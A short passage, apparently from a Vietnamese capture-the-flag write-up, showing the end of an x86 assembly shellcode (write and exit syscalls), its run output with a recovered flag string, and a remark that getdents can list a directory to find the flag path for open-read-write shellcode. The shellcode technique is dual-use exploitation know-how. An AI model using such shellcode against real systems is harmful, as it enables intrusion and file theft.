 ```sh
    mov eax, 4
    mov ebx, 1
    int 0x80

    xor eax, eax
    mov al, 1
    xor ebx, ebx
    int 0x80

end
[!] Compiling and running the assembly code...
VSL{d0d73fb9a4d7e40b0cc6870fc2c4ba67}n��
                                        o��o��&o��>o��wo���o���o���o�� @��!��3�
[+] Assembly code compiled and run successfully
```

Ở bài này thì mình không có bị gặp việc end `EOF` khi thực thi `execve` nhưng anh `mentor` của mình thì có 🥹.  Nên ta có thể sử dụng syscall `getdents` để list ra những thứ có trong thư  mục đó từ đó tìm đc path đúng của flag và viết shellcode `orw` cho nó
